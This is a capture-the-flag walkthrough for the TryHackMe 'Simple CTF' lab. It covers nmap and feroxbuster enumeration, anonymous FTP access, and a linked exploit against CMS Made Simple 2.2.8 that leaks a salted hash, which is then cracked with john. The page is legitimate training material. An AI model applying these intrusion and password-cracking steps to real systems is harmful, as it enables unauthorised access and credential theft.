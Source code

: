 # Introduction

We first add a domain in /etc/hosts so we don't need to remember the IP
```bash
10.10.xx.xx simplectf.thm
```

# Enumeration

We do a nmap with some options :\
\
-T4 is for have more threads to accelerate the scan\
-p- is to scan all the ports\
-sV is to scan the version\
\
we run the scan as sudo so it's doing a SYN scan and not a full TCP connection so it's faster

```bash
sudo nmap -T4 -p- -sV simplectf.thm
```

We got this result
```bash
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

# FTP (port 21)
let's try to connect as anonymous
```bash
$ ftp simplectf.thm
Connected to simplectf.thm.
220 (vsFTPd 3.0.3)
Name (simplectf.thm:kali): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
```

It works ! Not let's list the file with a ls -la
```bash
ftp> ls -la
229 Entering Extended Passive Mode (|||47710|)
```

It's not working, it says it is in passive mode so we need to disable it by doing the command PASSIVE
```bash
^C
receive aborted. Waiting for remote to finish abort.
ftp> passive
Passive mode: off; fallback to active mode: off.
ftp> ls -la
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
drwxr-xr-x    3 ftp      ftp          4096 Aug 17  2019 .
drwxr-xr-x    3 ftp      ftp          4096 Aug 17  2019 ..
drwxr-xr-x    2 ftp      ftp          4096 Aug 17  2019 pub
226 Directory send OK.
```

If we go in pub folder, we found a file name "ForMitch.txt" who contains this hint
```
Dammit man... you'te the worst dev i've seen. You set the same pass for the system user, and the password is so weak... i cracked it in seconds. Gosh... what a mess!
```

Seems we could try a bruteforce attack on the SSH port with the mitch user\
Let's see the website and we'll try further

# HTTP (port 80)
Let's see the website !\
First, we found a robots.txt
```
#
# "$Id: robots.txt 3494 2003-03-19 15:37:44Z mike $"
#
#   This file tells search engines not to index your CUPS server.
#
#   Copyright 1993-2003 by Easy Software Products.
#
#   These coded instructions, statements, and computer programs are the
#   property of Easy Software Products and are protected by Federal
#   copyright law.  Distribution and use rights are outlined in the file
#   "LICENSE.txt" which should have been included with this file.  If this
#   file is missing or damaged please contact Easy Software Products
#   at:
#
#       Attn: CUPS Licensing Information
#       Easy Software Products
#       44141 Airport View Drive, Suite 204
#       Hollywood, Maryland 20636-3111 USA
#
#       Voice: (301) 373-9600
#       EMail: cups-info@cups.org
#         WWW: http://www.cups.org
#

User-agent: *
Disallow: /


Disallow: /openemr-5_0_1_3 
#
# End of "$Id: robots.txt 3494 2003-03-19 15:37:44Z mike $".
#
```

This could be interesting, maybe there is an user named mike ? in addition of mitch ?\
We do a feroxbuster to enumarate directories and found a /simple directory

```bash
$ feroxbuster -u http://simplectf.thm/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```

```bash
301      GET        9l       28w      315c http://simplectf.thm/simple => http://simplectf.thm/simple/
301      GET        9l       28w      321c http://simplectf.thm/simple/admin => http://simplectf.thm/simple/admin/
```

So we figure out by visiting this url that there is an webapp named CMS Made Simple in v2.2.8
<img width="807" alt="image" src="https://github.com/MaTe0r/tryhackme.com/assets/94843357/49b86b59-a666-4f90-baec-db916a14d9f9">

In googling the version, we found that this is vulnerable to a RCE (https://www.exploit-db.com/exploits/46635)

[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[*] Try: 0c01f4468bd75d7a84c7eb73846e8d96

```
$ cat hashmd5 
0c01f4468bd75d7a84c7eb73846e8d96$1dac0d92e9fa6bb2
```

```
$ john hashmd5 --wordlist=/usr/share/wordlists/rockyou.txt --form=dynamic='md5($s.$p)'
Using default input encoding: UTF-8
Loaded 1 password hash (dynamic=md5($s.$p) [128/128 ASIMD 4x2])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
secret           (?)     
1g 0:00:00:00 DONE (2023-08-18 15:26) 100.0g/s 168000p/s 168000c/s 168000C/s 123456..kenny
Use the "--show --format=dynamic=md5($s.$p)" options to display all of the cracked passwords reliably
Session completed.
```
